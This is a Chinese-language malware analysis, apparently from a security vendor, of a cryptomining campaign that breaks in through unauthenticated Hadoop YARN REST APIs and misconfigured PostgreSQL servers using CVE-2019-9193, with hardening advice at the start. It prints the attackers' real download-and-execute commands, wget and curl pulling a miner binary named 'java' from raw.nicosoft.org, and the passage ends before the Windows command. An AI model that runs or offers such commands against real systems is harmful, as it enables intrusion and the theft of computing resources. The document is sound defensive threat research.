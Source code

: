 2) 如果必须开启公网访问，Hadoop 在 2.X 以上版本提供了安全认证功能，建议管理员升级并启用 Kerberos 的认证功能，阻止未经授权的访问。  
**PostgreSQL**  
1) 修改 PostgreSQL 的访问配置 / data/pgsql/9.3/data/pg_hba.conf，限制不受信任的对象进行访问；  
2) 谨慎考虑分配 pg_read_server_files、pg_write_server_files、pg_execute_server_program 角色权限给数据库客户。

  

  

**二、样本分析**

**漏洞入侵**

**1）Hadoop Yarn 未授权访问漏洞**  
Hadoop 是一个由 Apache 基金会所开发的分布式系统基础架构，YARN 是 hadoop 系统上的资源统一管理平台，其主要作用是实现集群资源的统一管理和调度，可以把 MapReduce 计算框架作为一个应用程序运行在 YARN 系统之上，通过 YARN 来管理资源。客户可以向 YARN 提交特定应用程序进行执行，其中就允许执行相关包含系统命令。  
YARN 提供有默认开放在 8088 和 8090 的 REST API（默认前者）允许客户直接通过 API 进行相关的应用创建、任务提交执行等操作，如果配置不当，REST API 将会开放在公网导致未授权访问的问题，攻击者可以在未授权的情况下远程执行代码。  
攻击者通过扫描暴露在公网的的 8088 端口，发现没有开启特定客户安全认证的集群，并通过 YARN RESET API 提交应用，提交任务的客户名为 dr.who。  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJWhA8HhOALEO6PnJXXDVrwOPBicy8WxHF4g2QAt7UAxiceSe59Ktqp6cw/640?wx_fmt=png)

攻击者在创建的 Hadoop 应用中通过 Post hxxp://ip:8088/ws/v1/cluster/apps 执行恶意命令为：  

```
wget hxxp://raw.nicosoft.org/java && chmod  x java && ./java || curl -O hxxp://raw.nicosoft.org/java && chmod  x java && ./java
```

  
该命令从黑客控制的服务器上下载挖矿木马 java 并启动。  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJpEEaGuavTOicL8FkzDAZicnuCPzSetjkb7tVwWFgoAxBRBhsAlwCqISA/640?wx_fmt=png)

**2）PostgreSQL 未授权访问漏洞**  
PostgreSQL 未授权访问漏洞主要是由于管理员配置不当形成的。PostgreSQL 配置文件在 / data/pgsql/9.3/data/pg_hba.conf，如果管理员没有正确的配置信任的主机，（如下图），则会导致任意客户无需密码均可访问 PostgreSQL 数据库。  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJL1SjFqQhM0bMYyCzb0iax2wmX8yhwM4gonFuvrshppPh7tkWCadLRBw/640?wx_fmt=png)

**3）PostgreSQL 提权代码执行漏洞（CVE-2019-9193）**  
2019 年 3 月安全研究人员披露了 PostgreSQL 提权代码执行漏洞（CVE-2019-9193）的漏洞细节，具有数据库服务端文件读权限的攻击者利用此漏洞，可执行任意系统命令。  
此次披露的漏洞存在于导入导出数据的命令 “COPY TO/FROM PROGRAM”” 中，“pg_read_server_files”组内客户执行上述命令后，可获取数据库超级客户权限，从而执行任意系统命令。该漏洞几乎影响了 PostgreSQL 的所有版本（从 9.3 到最新版本），同时也影响了所有的操作系统：Windows，Linux 和 Mac。  

受影响 PostgreSQL 版本：PostgreSQL >=9.3  

![](https://mmbiz.qpic.cn/mmbiz_png/6AoQM3RKCWXIHeBZ6zsgXX0hib3CpzmuJQHfz6BYMDyVNSbSShhdtqxvicibicP3Sdicfllhkib21dXXM7p1Yibf7GVXA/640?wx_fmt=png)

攻击者通过批量扫描 5432 端口发现 PostgreSQL 服务器，然后利用未授权访问漏洞获得了 PostgreSQL 数据库的访问权限，接着再利用 PostgreSQL 提权代码执行漏洞（CVE-2019-9193）根据不同的系统执行以下恶意命令：  
针对 Linux 系统：  

```
sh -c curl -O hxxp://raw.nicosoft.org/java && chmod +x java && ./java
```

  
针对 Windows 系统：  
